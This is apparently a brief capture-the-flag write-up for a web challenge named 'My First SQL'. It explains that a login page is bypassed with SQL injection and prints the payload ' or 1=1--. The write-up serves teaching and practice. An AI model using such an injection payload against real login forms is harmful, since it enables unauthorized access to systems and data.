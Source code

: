 # Web

Challenge Name : My First SQL

# Solution

Opening the link will get us into this page

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210609145149.png)

Simple SQL Injection will get us bypass the login.

```code
# Payload
' or 1=1--
```

# Flag

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210609145239.png)


